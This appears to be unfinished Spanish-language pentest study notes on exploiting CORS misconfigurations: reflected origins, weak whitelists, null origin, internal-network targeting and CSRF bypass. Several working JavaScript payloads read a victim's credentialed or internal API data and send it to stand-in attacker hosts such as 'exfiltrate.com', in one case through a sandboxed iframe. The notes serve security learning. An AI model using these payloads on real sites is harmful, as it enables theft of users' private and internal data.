 ### Contexto

- La mayoría de los ataques en CORS requieren que la header **Access-Control-Allow-Credentials** esté seteada en **true** para poder tener un contexto de autenticación de la víctima.
- De lograrse un ataque teniendo en cuenta el caso anterior saliendo desde un servicio controlado por el atacante la vulnerabilidad es similar al CSRF pero más severa.
- Dependiendo de la configuración específica del CORS el atacante puede potencialmente interactuar con la aplicación impersonando a la victima y ejecutando acciones sobre su comportamiento.


Si la header Access-Control-Allow-Credentials no está seteada, el atacante no podrá continuar con los ataques antes mencionados. Sin embargo, **una mala configuración de CORS en una aplicación web interna puede permitir a un atacante exfiltrar información no pública**

---

## Arbitrary Origin Reflection

La header Access-Control-Allow-Origin contiene los origenes que tienen permitido baypassear la SOP. El header puede ser seteado con un wildcard (*) que resulta en el permiso de todos los origenes.Por motivos de seguridad **EL WIDLCARD NUNCA DEBE SER SER COMBINADO CON Access-Control-Allow-Credentias seteado a true**

Podemos identificarla si vemos que en la cabecera Access-Control-allow-Origin de la response se refleja la cabeceras Origin o Referer de la request.

Si esto último se da y la header Access-Control-Allow-Credentials está seteada en true podemos explotarla.

### Explotación:

Creamos un payload en un sitio controlado por nosotros donde se indique el recurso a exfiltrar por medio de un get, que se haga con credenciales, el sitio al que van a ser reenviados los datos y luego un send de manera automática. Y se lo hacemos llegar a la víctima.

    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.com/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          location = 'http://exfiltrate.com/log?data=' + btoa(xhr.response);
        };
        xhr.send();
    </script>

## Improper Origin Whitelist

Esta explotación se basa en un error de configuración en la implementación de whitelist de los trusted origin. Requiere nuevamente el header Access-Control-Allow-Credentials seteado en true.

Imaginamos que el sitio *api.vulnerable.com* quiere permitir las request de todos los subdominios de *vulnerable.com*. Al validar el origen solo se fijará en que el mismo termine en *vulnerable.com* sin importar qué venga detrás. 

Esto permite a un atacante crear una web llamada **attackervulnerable.com** y cumplir con los requisiros del filtro de la whitelist.

La explotación es, entonces, exáctamente igual a la de arbitrary origin reflection.


## Trusted Null Origin.

La explotación se da cuando la cabecera de la response Access-Control-Allow-Origin está seteada en null y la header Access-Control-Allow-Credentials está seteada a true.

**EN LA PRACTICA LA CABECERA ACCESS-CONTROL-ALLOW-ORIGIN NUNCA DEBE ESTAR SETEADA EN NULL**. Sin embargo, los programadores suele confundirse con el sigificado de la misma pensando que es un "bloqueador total".

### Explotación.
La explotación es muy similar a las anteriores pero dentro de un **iframe**. De esta manera no es el sitio el que está haciendo la request sino el objeto (iframe), de esta manera el origen es nulo.

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.com/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          location = 'http://exfiltrate.com/log?data=' + btoa(xhr.response);
        };
        xhr.send();
    </script>"></iframe>

## Targeting The local network

Este ataque no requiere la cabecera Access-Control-Allow-Credentials.

En el caso de que el header Access-Control-Allow-Origin esté seteado con un wildcard podemos buscar exfiltrar apis o sitios internos de la infraestructura si la victima se encuentra conectada desde dentro de la red de la organización.

No es buena idea exfiltrar una página mediante el método GET porque la URL no es ilimitada y el contenido puede muy facilmente superar la cantidad de caracteres disponibles. Es mejor, en el caso de un exfiltrado total, usar el método POST y guardar todo en un parámetro.
Otra forma de hacerlo, mediante el método GET es filtrar el resultado por los datos que pueden sernos importantes mediante la funcion getElementById:

### Ejemplo de payload en GET:

    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.htb/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          // parse the response
    	  var doc = new DOMParser().parseFromString(xhr.response, 'text/html');
    
    	  // exfiltrate only the interesting element
    	  var msg = encodeURIComponent(doc.getElementById('secret').innerHTML);
          location = 'https://exfiltrate.htb/log?data=' + btoa(msg);
        };
        xhr.send();
    </script>

### Ejemplo de POST

    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://172.16.0.2/data', true);
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
        xhr.onload = () => {
          var exfilData = btoa(xhr.response);
          var postData = 'data=' + encodeURIComponent(exfilData);
    
          var xhr2 = new XMLHttpRequest();
          xhr2.open('POST', 'http://exfiltrate.com/log', true);
          xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
          xhr2.send(postData);
        };
    
        xhr.send();
    </script>

## Bypass CSRF tokens via CORS

Si CORS está configurado para que las cookies de sesión sean enviadas mediante cross-origin (Access-Control-Allow-Credentias: true) podemos hacer un bypass de la SOP volviendo a las defensas CSRF comunes inefectivas.

# CONTINUARÁ...
